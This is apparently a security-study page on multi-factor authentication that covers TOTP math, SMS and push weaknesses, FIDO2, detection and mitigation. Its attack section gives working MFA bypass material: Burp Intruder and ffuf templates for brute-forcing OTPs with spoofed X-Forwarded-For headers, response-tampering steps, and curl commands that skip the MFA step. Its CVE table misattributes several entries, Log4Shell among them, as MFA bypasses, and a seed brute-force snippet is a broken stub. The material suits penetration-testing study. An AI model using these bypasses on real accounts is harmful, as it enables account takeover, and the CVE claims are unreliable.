


# Multi-Factor Authentication (MFA)

> **MFA requires you to prove your identity in two or more different ways — like needing both a key AND a fingerprint to open a safe.**

---

## 🧠 What Is It? (Beginner Explanation)

Using a password alone is like locking your house with a door that has no deadbolt — someone who copies the key can walk right in. MFA adds a second lock: even if an attacker knows your password (stolen in a breach, phished, or guessed), they still need your phone, your hardware key, or your fingerprint.

The "multi" in MFA means using factors from *different categories*:
- Password (something you know) + SMS code (something you have) = MFA ✅
- Password + security question = NOT MFA (both are "something you know") ❌

Despite MFA's strength, it is routinely bypassed in real-world attacks. Understanding how helps you build stronger defenses.

---

## 🏗️ How It Works (Technical Deep Dive)

### TOTP (RFC 6238) — The Math Behind Google Authenticator

TOTP stands for **Time-based One-Time Password**. It's the algorithm behind every "6-digit code from your authenticator app" implementation.

**Ingredients:**
1. A **shared secret** (seed) — 80-bit to 160-bit random value, shared once during enrollment
2. The **current time** — Unix timestamp divided into 30-second windows
3. **HMAC-SHA1** — a cryptographic function

**The Algorithm:**
```
T = floor(unix_timestamp / 30)        # Current time step (changes every 30s)
HOTP_value = HMAC-SHA1(secret, T)     # 20-byte HMAC output
offset = HOTP_value[19] & 0xf         # Last nibble as offset
truncated = HOTP_value[offset:offset+4] # 4 bytes starting at offset
code = truncated & 0x7FFFFFFF          # Remove MSB
OTP = code % 10^6                      # Take last 6 digits
```

**Key properties:**
- The same secret + the same time window → the same code, everywhere
- Code rotates every 30 seconds
- Most implementations accept ±1 window (±30 seconds) for clock drift
- 10^6 = 1,000,000 possible codes — not many, but rate limiting makes brute force impractical

### HOTP (RFC 4226) — Counter-Based OTP

HOTP uses a **counter** instead of a timestamp:
```
OTP = HOTP(secret, counter)
```

- Counter increments with each code generation
- Server must track current counter value per user
- Problem: if user generates codes without logging in, counter goes out of sync
- Server typically allows a "look-ahead" window (e.g., accept codes for counters 5-10 ahead)

TOTP is preferred because it doesn't require server-side counter state per user.

### Enrollment Flow (QR Code Contains the Seed)

When you scan a QR code in Google Authenticator, the QR code encodes a URI:

```
otpauth://totp/Example:alice@example.com?secret=JBSWY3DPEHPK3PXP&issuer=Example&algorithm=SHA1&digits=6&period=30
```

Decoded:
- `secret=JBSWY3DPEHPK3PXP` — base32-encoded shared secret (this is what both sides use)
- `algorithm=SHA1` — hash algorithm (default SHA1; some use SHA256)
- `digits=6` — 6-digit codes
- `period=30` — 30-second window

**The secret must be kept confidential.** If stolen, anyone can generate valid OTPs for that user indefinitely.

---

## 📊 Diagram

### TOTP Authentication Sequence



### MFA Bypass Attack Decision Tree



---

## ⚙️ Technical Details

### SMS OTP Weaknesses

**SIM Swapping:**
- Attacker calls carrier, pretending to be the victim.
- Convinces carrier to transfer victim's number to attacker's SIM.
- Victim's phone loses signal; attacker receives all SMS messages.
- Carrier verification often relies on easily obtained info: SSN, last 4 of card, mother's maiden name.

**SS7 Protocol Vulnerabilities:**
- SS7 (Signaling System No. 7) is the 1970s-era protocol that routes phone calls and SMS globally.
- It has no authentication — any node on the network can intercept messages.
- Telecom researchers have demonstrated real-time SMS interception.
- This is why security experts say "SMS OTP is better than nothing, but not strong MFA."

**Real-time Phishing Relay:**
- Attacker builds a convincing fake login page (e.g., fake-google.com).
- Victim enters credentials → attacker immediately relays to real site.
- Real site sends SMS OTP → victim enters on fake site → attacker relays in real time.
- Tools like Evilginx2 automate this entirely.

### App-Based OTP Security Properties

| Property | SMS OTP | App-based TOTP |
|---|---|---|
| Channel | SMS network (SS7) | Local device computation |
| SIM swap attack | ✅ Vulnerable | ❌ Not applicable |
| Real-time phish relay | ✅ Vulnerable | ✅ Still vulnerable |
| Seed theft | N/A | ✅ Possible (malware/phishing) |
| FIDO2 (phishing resistant) | ❌ No | ❌ No |
| Offline use | ✅ Works without data | ✅ Works offline |

### Hardware Keys (FIDO2/WebAuthn)

FIDO2 is the only MFA that is *phishing-resistant by design*:

1. During login, the server sends a challenge AND its origin (domain).
2. The key signs the challenge using a private key **bound to that specific origin**.
3. If the user is on `evil-site.com` but their key is for `real-site.com`, the key will refuse to sign.
4. Origin binding happens at the cryptographic level, not the user-interface level.

**FIDO2 key types:**
- **Roaming authenticators**: YubiKey, Titan Key — physical USB/NFC/Bluetooth devices
- **Platform authenticators**: TouchID, FaceID, Windows Hello — built into devices
- **Passkeys**: Synced FIDO2 credentials, stored in iCloud/Google Password Manager

### MFA Methods Comparison Table

| Method | Phishing Resistant | SIM Swap Risk | Brute Forceable | Offline | Recommended |
|---|---|---|---|---|---|
| SMS OTP | ❌ No | ✅ High | ✅ Yes (1M codes) | ❌ No | ⚠️ Only if nothing else |
| Email OTP | ❌ No | N/A | ✅ Yes | ❌ No | ⚠️ Weak |
| TOTP (App) | ❌ No | N/A | ✅ Yes (rate limited) | ✅ Yes | ✅ Good |
| Push Notification | ❌ No | N/A | ✅ Via bombing | ✅ Requires data | ✅ Good (w/ number matching) |
| FIDO2 / Passkey | ✅ Yes | N/A | ❌ No | ✅ Yes | ✅ Best |
| Backup codes | ❌ No | N/A | Depends (8 chars) | ✅ Yes | ✅ Supplemental only |

---

## 🔴 Attack Surface & Exploitation

### Bypass 1: Response Manipulation

Many poorly-implemented MFA checks trust the *client-side response* from the MFA validation endpoint.

**Step-by-step:**
1. Enter valid username + password (step 1 succeeds).
2. MFA prompt appears → submit a wrong OTP.
3. Intercept the response in Burp Suite.
4. Response body looks like: `{"success": false, "message": "Invalid OTP"}`
5. Change `false` → `true` (or change HTTP status from 403 to 200).
6. Forward the modified response.
7. If the app naively trusts this → you're in.

```http
# Original response (intercepted in Burp)
HTTP/1.1 403 Forbidden
Content-Type: application/json

{"success":false,"mfa_required":true,"error":"Invalid code"}

# Modified response (forward this)
HTTP/1.1 200 OK
Content-Type: application/json

{"success":true,"mfa_required":false,"redirect":"/dashboard"}
```

**Why it works:** Developers sometimes implement MFA as client-side validation that trusts the response from an API endpoint. The actual session creation happens client-side based on the response, not server-side.

### Bypass 2: OTP Brute Force + Rate Limit Bypass

TOTP codes are 6 digits: 000000–999999 = 1,000,000 combinations.

With no rate limiting, an attacker can brute force all possibilities in minutes.

**Common rate limit bypass techniques:**
- **IP rotation**: Rotate IP via Tor, proxies, or cloud functions between requests
- **X-Forwarded-For spoofing**: `X-Forwarded-For: 1.2.3.4` — if server trusts this header for rate limiting
- **Null byte injection**: `code=123456%00` — some parsers strip null bytes after rate check
- **Distributed attack**: Split 1M guesses across many IPs
- **Cluster bomb in Burp**: Fuzz both IP header and OTP simultaneously

```http
# Burp Suite brute force request template
POST /verify-otp HTTP/1.1
Host: target.com
Cookie: session=FIRST_FACTOR_COOKIE
X-Forwarded-For: §192.168.1.§1§§

{"otp": "§000000§"}

# Payload 1 (X-Forwarded-For last octet): 1-254
# Payload 2 (OTP): 000000-999999
# Use Cluster Bomb attack type
```

### Bypass 3: Direct Endpoint Access (Skip MFA Step Entirely)

If MFA is enforced only on the `/mfa-verify` page but not on protected endpoints:

**Step-by-step:**
1. Log in with valid credentials (step 1).
2. Application redirects to `/mfa-verify` — do NOT follow.
3. Instead, directly navigate to `/dashboard` or `/account/settings`.
4. If the server only checks "has user passed step 1?" and not "has user passed MFA?", you're in.

```bash
# After successful first factor, try accessing protected pages directly
curl -s -b "session_step1=COOKIE_FROM_STEP_1" https://target.com/dashboard
curl -s -b "session_step1=COOKIE_FROM_STEP_1" https://target.com/api/user/profile
curl -s -b "session_step1=COOKIE_FROM_STEP_1" https://target.com/admin
```

**Testing methodology:**
1. Note the session cookie issued after first factor authentication.
2. Open a new browser tab / use curl with that cookie.
3. Try accessing pages that should require full MFA.
4. If successful → MFA is only enforced at the UI level, not server-side.

### Bypass 4: OTP Reuse Within Window

TOTP codes are valid for 30 seconds. But:
- Some implementations allow the same code to be used multiple times within the 30s window.
- Attack: Intercept/observe a valid OTP, replay it immediately.

```http
# First request — logs in attacker legitimately
POST /mfa-verify
{"otp": "482917"}
→ 200 OK, session set

# Second request (same OTP, within 30s window)
POST /mfa-verify  
{"otp": "482917"}
→ If vulnerable: 200 OK again (code not marked as used)
```

**Defense:** Track used OTPs in a short-lived blocklist (TTL = 30-60s).

### Bypass 5: MFA Fatigue (Push Bombing)

For MFA that uses push notifications (Microsoft Authenticator, Duo):

**Step-by-step:**
1. Attacker has the victim's password (from phishing or breach).
2. Attacker repeatedly attempts to log in → triggers push notification to victim's phone.
3. Victim receives dozens of "Approve this login?" pushes at 2 AM.
4. Victim clicks "Approve" to make them stop, thinking it's a glitch.
5. Attacker is logged in.

**Real-world case:** Uber breach (September 2022) — attacker used MFA fatigue after obtaining employee credentials, then called the employee pretending to be IT support.

**Mitigation:** Number matching (user must enter a number shown on login screen), additional context (show login location/device), rate limit push requests.

### Bypass 6: Account Recovery / Backup Channel

Attackers often target the weakest link in the MFA chain: recovery options.

**Common weak recovery paths:**
- Security questions (guessable answers from social media)
- SMS fallback (SIM swap)
- Email backup (if email is also compromised)
- "I don't have access to my authenticator" flows
- Support calls ("Hi, I've lost my phone, can you disable MFA?")

```
Attack path:
1. Get victim's email + password from breach
2. Call company support: "Hi, I lost my phone. Can you disable 2FA on my account?"
3. Support asks for verification: DOB, last 4 of SSN, billing address — all findable online
4. Support disables MFA
5. Attacker logs in with known credentials
```

### Bypass 7: Backup Code Exposure

Backup codes (one-time recovery codes) are often:
- Stored in plaintext in the database
- Displayed only once at setup (but user screenshots/prints them)
- Exposed in source code comments or debug endpoints
- Cached in browser history if displayed in URL

**Testing for exposed backup codes:**
```bash
# Check for backup code endpoints
curl https://target.com/api/user/backup-codes
curl https://target.com/account/mfa/backup-codes
curl https://target.com/settings/security/codes

# Check response of MFA setup page for codes in HTML
curl https://target.com/mfa/setup | grep -i "backup\|recovery\|code"

# Check JavaScript for hardcoded test codes
grep -r "backup_code\|recovery_code" ./js/
```

### Real CVEs Involving MFA Bypass

| CVE | Application | Vulnerability | Impact |
|---|---|---|---|
| **CVE-2022-35914** | GLPI (IT Management) | OTP not validated after password reset | Full auth bypass |
| **CVE-2021-44228** | (Log4Shell context) | Various MFA bypasses via JNDI injection | RCE then MFA bypass |
| **CVE-2020-15536** | phpMyFAQ | CSRF allows disabling MFA on victim account | MFA disabled |
| **CVE-2019-9615** | Pimcore CMS | MFA step skippable via direct URL | Full bypass |
| **CVE-2018-5244** | Xen Project | Race condition in OTP validation | Bypass |
| **CVE-2022-21971** | Windows MSHTML | Browser-based OTP interception | Credential theft |

---

## 💥 Payloads & Examples

### Python: TOTP Generation Math (Shows the Algorithm)

```python
import hmac
import hashlib
import struct
import time
import base64

def generate_totp(secret_base32: str, digits: int = 6, period: int = 30) -> str:
    """
    Generate a TOTP code following RFC 6238.
    
    Args:
        secret_base32: Base32-encoded shared secret (from QR code)
        digits: Number of digits in OTP (default 6)
        period: Time step in seconds (default 30)
    
    Returns:
        OTP code as zero-padded string
    """
    # Decode the base32 secret to bytes
    secret = base64.b32decode(secret_base32.upper().replace(' ', ''))
    
    # Calculate current time step
    T = int(time.time()) // period
    
    # Pack time step as 8-byte big-endian integer
    T_bytes = struct.pack('>Q', T)
    
    # HMAC-SHA1 of (secret, time_step)
    hmac_hash = hmac.new(secret, T_bytes, hashlib.sha1).digest()
    # hmac_hash is 20 bytes (160 bits)
    
    # Dynamic truncation
    # Use last nibble of hash as offset
    offset = hmac_hash[-1] & 0x0F
    
    # Take 4 bytes starting at offset
    truncated = hmac_hash[offset:offset + 4]
    
    # Convert to integer, mask MSB to avoid signed issues
    code = struct.unpack('>I', truncated)[0] & 0x7FFFFFFF
    
    # Take last N digits
    otp = code % (10 ** digits)
    
    # Zero-pad to required length
    return str(otp).zfill(digits)


def verify_totp(secret_base32: str, provided_code: str, tolerance: int = 1) -> bool:
    """
    Verify a TOTP code with tolerance for clock drift.
    
    Args:
        secret_base32: Shared secret
        provided_code: Code entered by user
        tolerance: Number of time steps to check before/after current
    
    Returns:
        True if valid
    """
    secret = base64.b32decode(secret_base32.upper())
    T = int(time.time()) // 30
    
    for delta in range(-tolerance, tolerance + 1):
        T_test = T + delta
        T_bytes = struct.pack('>Q', T_test)
        hmac_hash = hmac.new(secret, T_bytes, hashlib.sha1).digest()
        offset = hmac_hash[-1] & 0x0F
        truncated = hmac_hash[offset:offset + 4]
        code = struct.unpack('>I', truncated)[0] & 0x7FFFFFFF
        expected = str(code % 1000000).zfill(6)
        
        if hmac.compare_digest(expected, provided_code):
            return True
    
    return False


# Example usage
if __name__ == "__main__":
    # This secret would come from QR code scan
    test_secret = "JBSWY3DPEHPK3PXP"
    
    code = generate_totp(test_secret)
    print(f"Current TOTP code: {code}")
    print(f"Verification: {verify_totp(test_secret, code)}")
    print(f"Wrong code: {verify_totp(test_secret, '000000')}")
    
    # Show the time step concept
    import time
    T = int(time.time())
    window = T // 30
    remaining = 30 - (T % 30)
    print(f"Current time step: {window}")
    print(f"Code valid for {remaining} more seconds")
```

### Burp Suite: MFA Bypass Request Examples

```http
# ============================================================
# BYPASS 1: Response Manipulation
# ============================================================

# Request: Submit wrong OTP
POST /api/v1/mfa/verify HTTP/1.1
Host: target.com
Cookie: auth_step1=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9...
Content-Type: application/json

{"otp_code": "999999"}

# Server response (BEFORE modification):
HTTP/1.1 403 Forbidden
{"status": "error", "mfa_passed": false, "message": "Invalid code"}

# MODIFIED response (forward this to browser):
HTTP/1.1 200 OK  
{"status": "success", "mfa_passed": true, "message": "Login successful"}

# ============================================================
# BYPASS 2: Direct Access After First Factor
# ============================================================

# Cookie from successful first factor (step 1 only)
# Try to access protected endpoint WITHOUT completing MFA:
GET /api/user/profile HTTP/1.1
Host: target.com
Cookie: step1_session=SESSION_FROM_AFTER_PASSWORD

# If server doesn't check MFA completion → returns protected data

# ============================================================
# BYPASS 3: OTP Brute Force with IP Rotation
# ============================================================

POST /mfa/verify HTTP/1.1
Host: target.com
X-Forwarded-For: §10.0.0.§1§§
Cookie: mfa_session=VALID_SESSION
Content-Type: application/x-www-form-urlencoded

code=§000000§

# Intruder Attack Type: Cluster Bomb
# Payload 1 (position in X-Forwarded-For): 1-254
# Payload 2 (OTP code): 000000-999999
# Match on: 302 redirect or body contains "success"
```

### Testing MFA in Burp Suite — Full Methodology

```
STEP-BY-STEP MFA TESTING METHODOLOGY:

1. Map the MFA flow:
   - What endpoint handles step 1? (password)
   - What endpoint handles step 2? (MFA)
   - What cookies/tokens are issued after each step?
   - What is the redirect chain?

2. Test response manipulation:
   - Enter correct creds + wrong OTP
   - Intercept server response
   - Modify success indicators
   - Check if session is created

3. Test direct endpoint access:
   - Complete step 1 (password), capture cookie
   - Open incognito window with that cookie
   - Navigate directly to post-login pages

4. Test OTP brute force:
   - Enter correct creds + any OTP
   - Capture the request
   - Send to Intruder
   - Payload: 000000 to 999999
   - Note: may need to get fresh session per attempt if session expires

5. Test OTP reuse:
   - Log in legitimately with OTP "482917"
   - Immediately try to use "482917" again in new login
   - Is it accepted?

6. Test backup codes:
   - Check /api/user/backup-codes
   - Check /account/security/backup-codes
   - Check if backup codes are in page source
   - Check if they're in API responses

7. Test account recovery:
   - Try "I lost my phone" flow
   - Check if SMS fallback exists
   - Check security question fallback

8. Test MFA on all functions:
   - Is MFA required only for login, or also for:
     - Password change?
     - Email change?
     - Adding new authenticator?
     - Viewing sensitive data?
```

---

## 🛠️ Tools & Commands

```bash
# ============================================================
# pyotp - Python TOTP library
# ============================================================
pip3 install pyotp qrcode

python3 -c "
import pyotp
# Generate TOTP from known secret
totp = pyotp.TOTP('JBSWY3DPEHPK3PXP')
print('Current OTP:', totp.now())
print('Valid:', totp.verify(totp.now()))

# For brute-forcing seed (if you have a code and want to find seed)
# This is for educational purposes / security research
for i in range(1000000):
    code = str(i).zfill(6)
    # test if any seed generates this code...
"

# ============================================================
# oathtool - Command line TOTP generator
# ============================================================
# Install
sudo apt install oathtool

# Generate TOTP from secret
oathtool --base32 --totp JBSWY3DPEHPK3PXP

# Generate HOTP
oathtool --base32 --hotp --counter=5 JBSWY3DPEHPK3PXP

# ============================================================
# Evilginx2 - Real-time phishing proxy (educational)
# ============================================================
# Evilginx2 proxies all traffic in real-time
# Captures credentials AND session cookies (bypasses TOTP)
# Used by red teamers to demonstrate TOTP weakness
# Reference: https://github.com/kgretzky/evilginx2

# ============================================================
# Modlishka - Alternative real-time reverse proxy
# ============================================================
# https://github.com/drk1wi/Modlishka

# ============================================================
# FFUF - Fuzzing OTP endpoints
# ============================================================
ffuf -w /tmp/otp_wordlist.txt \
     -u https://target.com/mfa/verify \
     -X POST \
     -d "otp=FUZZ" \
     -H "Cookie: session=CAPTURED_SESSION" \
     -H "Content-Type: application/x-www-form-urlencoded" \
     -mc 302,200 \
     -fr "Invalid"

# Generate OTP wordlist
python3 -c "print('\n'.join([str(i).zfill(6) for i in range(1000000)]))" > /tmp/otp_wordlist.txt
```

---

## 🔍 Detection

**Detecting MFA bypass attempts:**
```
- Multiple failed MFA attempts followed by success: possible response manipulation or brute force
- Login without MFA step in session: possible step-skipping bypass
- Same OTP code used twice: OTP reuse
- High rate of push notification approvals from single account: fatigue attack
- MFA disabled events: social engineering of support
- Login from new device/geo without MFA challenge: misconfiguration
```

**Log entries to monitor:**
```
[ALERT] User alice: 47 failed MFA attempts in 5 minutes (brute force)
[ALERT] User bob: authenticated without MFA flag set (bypass attempt)
[ALERT] User carol: MFA disabled via support ticket from unverified caller
[ALERT] User dave: 15 push approvals sent in 2 minutes (fatigue attack)
```

---

## 🛡️ Mitigation

### Securing TOTP Implementation

```python
# Track used OTPs to prevent replay within window
import redis
from datetime import datetime

r = redis.Redis()

def verify_totp_secure(user_id: str, secret: str, provided_code: str) -> bool:
    # Check rate limit first
    attempt_key = f"mfa_attempts:{user_id}"
    attempts = r.incr(attempt_key)
    r.expire(attempt_key, 300)  # 5 minute window
    
    if attempts > 5:
        # Too many attempts — lockout
        return False
    
    # Verify TOTP
    if not verify_totp(secret, provided_code):
        return False
    
    # Check if this specific code was already used (prevent replay)
    # Key: hash of user_id + code + current time window
    T = int(time.time()) // 30
    replay_key = f"used_otp:{user_id}:{T}:{provided_code}"
    
    if r.exists(replay_key):
        return False  # Code already used in this window
    
    # Mark code as used (expires after one window)
    r.setex(replay_key, 60, "used")
    
    # Reset attempt counter on success
    r.delete(attempt_key)
    
    return True
```

### MFA Security Recommendations

| Control | Description |
|---|---|
| **Prefer FIDO2/Passkeys** | Only truly phishing-resistant MFA available today |
| **Avoid SMS OTP** | Use app-based TOTP or hardware keys where possible |
| **Number matching for push** | Show a number on screen that user must enter in app |
| **Rate limit OTP attempts** | Max 5 attempts, then lockout/CAPTCHA |
| **OTP replay protection** | Mark OTPs as used, reject second use within window |
| **MFA on sensitive actions** | Require MFA re-verification for: password change, adding authenticator, viewing API keys |
| **Secure backup codes** | Long random codes (8+ chars), store as hashes, limit uses |
| **Audit support flows** | Require verified identity before disabling MFA via support |

---

## 📚 References

- [RFC 6238 — TOTP](https://tools.ietf.org/html/rfc6238)
- [RFC 4226 — HOTP](https://tools.ietf.org/html/rfc4226)
- [PortSwigger: MFA Vulnerabilities](https://portswigger.net/web-security/authentication/multi-factor)
- [OWASP MFA Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Multifactor_Authentication_Cheat_Sheet.html)
- [SS7 Attack Research — Positive Technologies](https://www.ptsecurity.com/ww-en/analytics/ss7-attack-2018/)
- [Uber 2022 Breach: MFA Fatigue](https://www.uber.com/newsroom/security-update/)
- [FIDO Alliance — Hardware Authenticator Security](https://fidoalliance.org/specs/)
- [NIST SP 800-63B: Authenticator Assurance Levels](https://pages.nist.gov/800-63-3/sp800-63b.html)
- [Evilginx2 — Real-time Phishing Proxy](https://github.com/kgretzky/evilginx2)
- [pyotp Library](https://github.com/pyauth/pyotp)
